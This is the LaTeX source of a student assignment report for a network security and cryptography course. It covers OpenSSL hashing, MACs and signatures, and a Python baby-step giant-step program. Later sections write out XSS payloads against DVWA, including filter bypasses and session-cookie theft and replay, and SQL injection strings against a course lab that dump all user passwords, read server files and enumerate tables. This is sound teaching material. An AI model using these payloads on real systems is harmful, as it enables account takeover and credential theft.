\documentclass{article}
\usepackage{graphics}
\usepackage{graphicx}
\usepackage[T1]{fontenc}
\usepackage{float}
\usepackage[margin=1in]{geometry}
\usepackage[utf8]{inputenc}


\DeclareGraphicsExtensions{.eps}

% Default fixed font does not support bold face
\DeclareFixedFont{\ttb}{T1}{txtt}{bx}{n}{12} % for bold
\DeclareFixedFont{\ttm}{T1}{txtt}{m}{n}{12}  % for normal

% Custom colors
\usepackage{color}
\definecolor{deepblue}{rgb}{0,0,0.5}
\definecolor{deepred}{rgb}{0.6,0,0}
\definecolor{deepgreen}{rgb}{0,0.5,0}

\usepackage{listings}

% Python style for highlighting
\newcommand\pythonstyle{\lstset{
language=Python,
basicstyle=\ttm,
otherkeywords={self},             % Add keywords here
keywordstyle=\ttb\color{deepblue},
emph={MyClass,__init__},          % Custom highlighting
emphstyle=\ttb\color{deepred},    % Custom highlighting style
stringstyle=\color{deepgreen},
frame=tb,                         % Any extra options here
showstringspaces=false            % 
}}

% Python environment
\lstnewenvironment{python}[1][]
{
\pythonstyle
\lstset{#1}
}
{}

\title{CS 742 Foundations of Network Security and Cryptography \\ Assignment 2}
\author{
  Ajay Kedare \\
  153059007
  \and
  Astha Jada \\
  153050027
  \and
  Neha Garg \\
  153050039
  \and
  Sankalp Rangare \\
  153050087
}
%\author{ Ajay Kedare   \space \space 153059007\\ Astha Jada \space \space 153050027 \\ Neha Garg \space \space \space  153050039\\ Sankalp Rangare \space \space 153050087 }
\begin{document}
\maketitle
\clearpage

\section*{Computing SHA-1}
\subsection*{I. (a) Using OpenSSL, compute the SHA-1 hash of a message. Show the output.
Next change a single bit in the message and show the output. What differences
do you observe? Comment on your observations.}

Following steps were followed for computing SHA-1 of the message using openssl:\\

	\begin{figure}[htb]
	    \begin{center}
		
\includegraphics[width=15cm,height=12cm]{question1.png}
		\caption{Computing SHA-1 of the message}
	    \end{center}
	\end{figure}

\noindent For computing SHA-1 of the message, we created a file of size 1 byte containing only zeroes using following command:\\
\textbf{ dd if=/dev/zero of=binary.dat count=1 bs=1}\\

\noindent The above command created a file binary.dat containing 8 bits of zeros.\\

\noindent The SHA-1 of the message was then computed as shown in figure\\

\noindent Using a hex editor 'bless' we then edited binary.dat that now contains 01 (in hex) in binary i.e we changed only 1 bit. The SHA-1 was then recomputed as shown in figure\\

\noindent It can be observed that eventhough only 1 bit was changed the SHA-1 of the message was changed completely providing more security in a way that one cannot be obtained even if other is already known.
 
 


\section*{Computing MAC}
\subsection*{I(b). Use OpenSSL to}
\subsubsection*{(i) compute the CBC MAC of a message (ii) verify the CBC MAC on that message} 

\noindent For computing CBC of the message we created a file 'file.txt' that has the message.

	\begin{figure}[htb]
	    \begin{center}
		
\includegraphics[width=15cm,height=7cm]{question1b1.png}
		\caption{Computing AES CBC of the message}
	     \end{center}
	\end{figure}

\noindent Figure shows the content of the file that is to be encrypted. The MAC of the message is the last block of the ciphertext.\\

\noindent Figure shows the command that encrypts the file using AES in CBC mode. Option -e specifies that encryption is to be done. Option -K specifies the key to be used. -iv specifies the initialization vector to be used. The command takes file 'file.txt' as input and saves the ciphertext to 'out.txt'. Note that the key and initialization vector are 64 bits long.\\

\noindent As the block size in AES is 128 bits we extract the last 16 bytes using tail command and print it in hexadecimal using od -h . This extracts last block of the message which is the CBC MAC of the message.\\

\noindent To verify the CBC MAC the message is decrypted using the same command with -d option instead of -e and the file containing ciphertext 'out.txt' is provided as input.The output is observed to be same as the plaintext.


	\begin{figure}[h]
	    \begin{center}
		
\includegraphics[width=15cm,height=7cm]{question1b2.png}
		\caption{Alternating method for computing AES CBC of the message}
	     \end{center}
	\end{figure}


\noindent Alternately, the commands shown in above figure can be used for computing the CBC MAC. Here in encryption by using -salt option we provide the password and it internally generates key and iv based on password provided. This password is then provided with -k option during decryption.


\subsubsection*{(iii) compute the hash MAC of a message}

\noindent To compute the hash MAC of the message the following command can be used:\\
\textbf{openssl dgst -sha1 -hmac pass file.txt}\\

\noindent The output produced by the above command is:\\
HMAC-SHA1(file.txt)= e6bffdfa2767f2def627fad887b4ddc226ea5dd9\\

\noindent The HMAC is computed using SHA-1 algorithm with 'pass' as the key and the message to be encrypted is contained in file.txt

\subsubsection*{(iv) verify the hash MAC on that message}

\noindent When the receiver receives the message it calculates the hash MAC on the received message using the common shared key and if it is same as that received then the hash MAC is said to be verified.

\subsubsection*{(v) sign a message (vi) verify a signature on that message}

Following steps are performed to sign a message and then verify the signature on that message:

	\begin{figure}[h]
	      \begin{center}
		
\includegraphics[width=15cm,height=7cm]{question1b3.png}
		\caption{Signature and verification on the message}
	      \end{center}
	\end{figure}

\noindent Firstly, using RSA algorithm with n=2048 bits and e=3 private key is generated and stored in privkey-ID.pem\\

\noindent The message is stored in file.txt and it is then signed using sha-1 giving privkey-ID.pem generated above as input and then output is stored in sign-ID.bin\\

\noindent The public key is then generated and stored in pubkey-ID.pem \\

\noindent Finally, the signature is verified using public key and we get output as ' Verified OK'







\section*{Baby Step,Giant Step}
\subsection*{II. Use the "Baby Step, Giant Step” Algorithm discussed in class to crack the
Discrete Logarithm problem. Your program should input p (the prime number), g
(the generator) and y (the integer whose discrete log is desired) and output x
(the discrete log). Use different sizes for p (8, 10, 12, 14, 16, 18, 20 . . . bits).
For each size of p, use different values of y and plot the average execution time
versus p (log plot).}

\begin{python}

import math
from random import randint
import time

#Function to generate the random prime number of n bit
def rand_prime(n):
    start=2**(n-1)
    end=2**(n)
    while True:
        p = randint(start,end)
        if(p % 2 != 0 and all(p % n != 0 for n in 
            range(3, int(math.ceil(math.sqrt(p)))+1 ))):
            return p

#Function to generate the prime factors of given value n
def generatePrimeFactors(n):
    primfac = []
    d = 2
    while d*d <= n:
        while (n % d) == 0:
            primfac.append(d)
            n //= d
        d += 1
    if n > 1:
       primfac.append(n)
    return primfac

#Function to check if given 'gen' value is 
#generator of given prime number or not
def checkGenerator(gen,prime):
    primeFactor=generatePrimeFactors(prime-1)
    isGen=False
    if(all(gen**((prime-1)/pf) % prime !=1 for pf in primeFactor)):
        isGen=True
    else:
        isGen=False
    return isGen

#Functrion to return generator for given prime number
def generator(prime):
    gen=2
    while True:
        if(checkGenerator(gen,prime)):
            return gen
        else:
            gen+=1

#Function to calculate inverse of c mod b
def computeInverse(b,c):
    old1=1
    new1=0
    old2=0
    new2=1
    b1=b
    c1=c
    r=2

    while(r>1):
        q=math.floor(b1/c1)
        r=b1%c1
        temp1=old1-new1*q
        old1-new1
        new1=temp1

        temp2=old2-new2*q
        old2=new2
        new2=temp2

        b1=c1
        c1=r

    return new2    
# Main function that calculates discrete log
def babystepgiantstep(noOfBits):
    t0=time.clock()
    g = 871292   
    p = 1048573 
    p=rand_prime(noOfBits)  # the prime number
    print "Number of bits :", noOfBits
    print "Prime Number :",p
    y = randint(2,p)  # the integer whose discrete log is desired
    print "y value :",y
    g=generator(p)  # the generator
    print "generator :",g
    n = int(math.ceil(math.sqrt(p)))  
 
    A = []
    B = []

    #Creating list1
    for j in range(0,n):
        value = (g**j) % p
        A.append(value)

    x=computeInverse(p,g)

    x=long(x)
    n=long(n)

    am=long((x**n) % p)
    yvalue=y

    #Creating list2
    for k in range(0,n):
        value = (yvalue*(am**k)) % p
        B.append(value)

    #print A, len(A)
    #print B, len(B)

    result=[]
    #Finding match between two lists
    for r in A:
        for t in B:
            if r == t:
                i = A.index(r)            
                j = B.index(t)
                print i,j,A[i],B[j]
                result.append(j*n+i)
                break

    t1=time.clock() 
           
    print 'The value of x is ', min(result) 
    print 'Execution time is ', t1-t0, 'seconds' 



    rhs=(g**min(result)) % p
    print 'RHS', rhs


#Calculate execution time for different no of bits
for i in range(8,34 ,2):
    babystepgiantstep(i)
\end{python}

\vspace{70px}
\noindent Using this we computed the execution time for calculating the discrete log for prime numbers of different bits. \\

\noindent Below is the graph plotted for prime number in bits against exection time in seconds. \\

\begin{figure}[htb]
		
\includegraphics[width=15cm,height=8cm]{bsgsGraph}
		\caption{Execution Time for large prime numbers}
\end{figure}



\clearpage
\section*{XSS attack vectors for DVWA}
\subsection*{III Create your own XSS attack vector(s) for DVWA at each security level - low,
medium and high. Investigate why each attack vector works or fails at the
different security levels. Both, persistent and non-persistent (reflected) XSS
attacks should be attempted.}
\textbf{Persistent XSS} : Persistent XSS occurs when the developer stores the user input data into database server
or simply writing it in a file without a proper filtration , then sending them again to the client
browser.\\
\textbf{Reflected XSS} : The non-persistent (or reflected) cross-site scripting vulnerability is by far the
most common type. These holes show up when the data provided by a web client, most commonly
in HTTP query parameters or in HTML form submissions, is used immediately by server-side scripts
to generate a page of results for that user, without properly sanitizing the request.\\
\subsection*{1. Persistent XSS}
\subsubsection*{1.1 Level Low}
We'll first change the dvwa security to low.After setting the level click on XSS stored( present on left side).A page will open having name , message textbox along with 'sign guestbook' button. We can enter below attack vectors in name and message textbox.\\
{\tt Name: User}\\
{\tt Message: <script> alert("hi")</script>}\\
When user clicks on 'sign guestbook' button, a alert popup box will appear having message 'hi'.\\
{\tt cat /var/www/html/dvwa/vulnerabilities/xss\_s/source/low.php} --This command is used to get the code of xss stored for low level.\\
Reason for working of attack vector: The two parameters “message” and “name” present in the code are not sanitized properly. We store these
parameters into the guestbook table, so when we are displaying these parameters back in the client browser,
it will execute the malicious JavaScript code.\\
\textbf{Stealing cookies}\\
 We can enter below attack vectors in name and message textbox.\\
{\tt Name: User}\\
{\tt Message: <script>alert(document.cookie)</script>}\\
When user clicks on 'sign guestbook' button, below alert popup box will appear.\\
	\begin{figure}[htb]
	    \begin{center}
		
\includegraphics[width=8cm,height=2cm]{cookies.jpg}
		\caption{Alert popup showing cookie value}
	    \end{center}
	\end{figure}

Copy this {\bf PHPSESSID} from the alertbox and save it in a file. This is our cookie and now we have to consume it. There is an add-on for the Mozilla browser titled cookie editor. It is a tool that will let us view the cookies as well as allow us to edit them.\\
On second machine we'll open the DVWA login page. Now open the cookie editor and search for localhost and we will see the below image
	\begin{figure}[htb]
	    \begin{center}
		
\includegraphics[width=10cm,height=4cm]{cookieeditor.png}
		\caption{Editing cookie value in Cookie Editor}
	    \end{center}
	\end{figure}
First we'll edit the {\bf PHPSESSID} cookie and paste the cookie which we have copied earlier in the content textbox. Then we'll modify the security cookie and set the value as low in content textbox and save the changes. Now we'll remove the "login.php" from the URL address and when we press enter we'll be able to login into the dvwa site without providing any credentials.
\subsubsection*{1.2 Level Medium}
We'll first change the dvwa security to medium. After setting the level click on XSS stored( present on left side). We can enter any one of the  below attack vectors in name textbox. But the size of any input text in name textbox can't be more than 10 characters (maxlength=10), so using firebug we can change the maxlength=80 and then we can enter the below scripts.\\
\\  \begin{itemize}
     \item {\tt <script language="javascript">alert("hi")</script>}
     \item {\tt <scrip<script>t> alert("hi")</script>}
     \item {\tt <SCRIPT> alert("hi");</SCRIPT>}
    \end{itemize}

In name textbox we can't write {\tt <script>} keyword directly as the code is replacing {\tt <script>} keyword with ''(null string). So we have modified the attack vectors accordingly.
In message textbox attack using above scripts will not work because in code message is sanitized by htmlspecialchars(), which will converts some predefined characters to HTML entities.\\
{\tt cat /var/www/html/dvwa/vulnerabilities/xss\_s/source/medium.php} --This command is used to get the code of xss stored for medium level.\\

\noindent \textbf{Stealing cookies}\\
We can steal the cookie in the same way as we did for Persistent XSS-Level Low. But now our attack vector will be in below form and need to put it in name textbox.\\
{\tt <SCRIPT>alert(document.cookie)</SCRIPT>}\\
While modifying  the security cookie we'll set the value as medium in content textbox. Rest steps of cookie stealing are same as Persistent XSS-Level Low cookie stealing.
\subsubsection*{1.3 Level High}
We'll first change the dvwa security to high.The “High” level is the secure considered level (it is supposed to be the secure version and not to be passed to teach the secure implementation of web applications for developers).

\subsection*{2. Reflected XSS}
\subsubsection*{2.1 Level Low}
We'll first change the dvwa security to low. After setting the level click on XSS Reflected( present on left side).A page will open having a textbox and 'submit' button. We can enter below attack vectors in the textbox.\\
\begin{itemize}
     \item {\tt <script> alert('hi');</script>}
     \item {\tt <SCRIPT> alert('hi');</SCRIPT>}
\end{itemize}

\noindent {\tt cat /var/www/html/dvwa/vulnerabilities/xss\_r/source/low.php}  --This command is used to get the code of xss Reflected for low level.\\
The code is directly echoing the input entered in the textbox without any filtering and sanitization.\\
\textbf{Stealing cookies}\\
We can steal the cookie in the same way as we did for Persistent XSS-Level Low. But here we'll enter the attack vector in the textbox available rather than the message texbox, rest of the steps are same.

\subsubsection*{2.2 Level Medium}
We'll first change the dvwa security to medium. After setting the level click on XSS Reflected( present on left side). A page will open having a textbox and 'submit' button. We can enter below attack vectors in the textbox.\\
\begin{itemize}
     \item {\tt <script language="javascript">alert("Hi");</script>}
     \item {\tt <scrip<script>t> alert("hi");</script>}
     \item {\tt <SCRIPT> alert("hi");</SCRIPT>}
\end{itemize}

In the textbox we can't write <script> keyword directly as the code is replacing <script> keyword with ''(null string). So we have modified the attack vectors accordingly.
{\tt cat /var/www/html/dvwa/vulnerabilities/xss\_r/source/medium.php} --This command is used to get the code of xss Reflected for medium level.\\
The code is directly echoing the input entered in the textbox after replacing <script> keyword with ''(null string). .\\
\textbf{Stealing cookies}\\
We can steal the cookie in the same way as we did for Persistent XSS-Level Medium. But here we'll enter the attack vector in the textbox available rather than the name texbox, rest of the steps are same.
\subsubsection*{2.3 Level High}
We'll first change the dvwa security to high.The “High” level is the secure considered level (it is supposed to be the secure version and not to be passed to teach the secure implementation of web applications for developers).


\section*{IV. SQL Injection}

\subsection*{1. (Level 1) Add yourself as a user with your own username and password providing your IITB roll number in details.}
  Attack vector for this level is:\\
        \textbf{a.\space \space admin'\#}\\
  Using this in 'User name' field, we can login as an 'admin' and create/add a user.\\
	\begin{figure}[htb]
	    \begin{center}
		
\includegraphics[width=8cm,height=5cm]{1.png}
		\caption{Creating a user}
	    \end{center}
	\end{figure}
       
       \textbf{b.\space \space 'union all select user,pass from users where user='admin'\#}\\
               Enter this attack vector in password field.\\
               This will dump the password of admin on the Home page.\\
   
   \begin{figure}[htb]
	    \begin{center}
		
\includegraphics[width=10cm,height=4cm]{2.png}
		\caption{Getting the password of admin}
	    \end{center}
	\end{figure}
        Encircled text is the password of the admin.\\

\subsection*{2. (Level 2) Find out the username-password pairs of ALL the users of this portal.}
        As we know the password of the admin,we logged in as admin in level 2.\\
        In the 'search names' box,enter this attack vector:\\
        \textbf{' union all select user,pass,null from users\#}\\
        This will just dump the name of all the users and their passwords on the page.\\
        
        \begin{figure}[H]
	      \begin{center}
		
\includegraphics[width=10cm,height=8cm]{3.png}
		\caption{Passwords of users}
	      \end{center}
	\end{figure}
	
	Some other attack vectors(all tried on search name box):\\
	\textbf{(a)\space \space' union all select null,null,database()\#}\\
	           This will dump the name of the database.\\\\
	\textbf{(b)\space \space' union all select null,null,load\_file('/var/www/html/sql/2/login.php')\#}\\
	           This will load the 'login.php' files stored in the server.\\
	           Similarly we can see other files also.\\
	           By analysing these php files,we can see what kind of syntax and logic is used and
	           this will help us to design the attack vectors and also to improve them.\\
        
        \begin{figure}[H]
	    \begin{center}
	    	
\includegraphics[width=10cm,height=8cm]{4.png}
	    	\caption{Code snippet of login.php}
	     \end{center}
	\end{figure}
        
\subsection*{3. (Level 3) Find out names of all the tables in the database.}
           Login in level 3 as admin.\\
           By analysing the code for 'login.php'(using load\_file in previous level) for level 3,we came to know that function \textbf{str\_ireplace('UNION', '', \$q)} 
           is used to prevent us from using 'union' in our attack vectors.\\
           So we design our attack vectors in such a way to bypass this function.\\
           
           \textbf{(a)\space \space \%' UunionNION All select TABLE\_TYPE,TABLE\_SCHEMA,table\_name FROM INFORMATION\_SCHEMA.TABLES\#}\\
             This attack vectors dumps the information related to TABLES and INFORMATION\_SCHEMA.\\
             Here,in attack vectors \textbf{UunionNION} is used in place of \textbf{UNION} to bypass \textbf{str\_ireplace()} function.
             \begin{figure}[H]
             \begin{center}
		    
\includegraphics[width=10cm,height=8cm]{5.png}
		    \caption{Tables name and information schema}
		\end{center}
	\end{figure}
	
	\textbf{(b) \space \space \%' UunionNION All select TABLE\_TYPE,TABLE\_SCHEMA,table\_name FROM INFORMATION\_SCHEMA.TABLES where TABLE\_SCHEMA='assign2'\#}\\
	 This attack vector when entered in 'search name' box will gives us the name of tables in that database 'assign2'.\\ \\
	 \textbf{(c)\space \space\%' UunionNION SELECT TABLE\_SCHEMA,TABLE\_NAME,COLUMN\_NAME  FROM INFORMATION\_SCHEMA.COLUMNS WHERE TABLE\_SCHEMA = 'assign2' AND TABLE\_NAME = 'users'\#}\\
	  This attack vector will dump the Database name,table name and their columns name.\\
	  \begin{figure}[H]
	    \begin{center}
	      
\includegraphics[width=10cm,height=4cm]{6.png}
	      \caption{Database name, Table name and Column names}
	    \end{center}
	\end{figure}

\end{document}

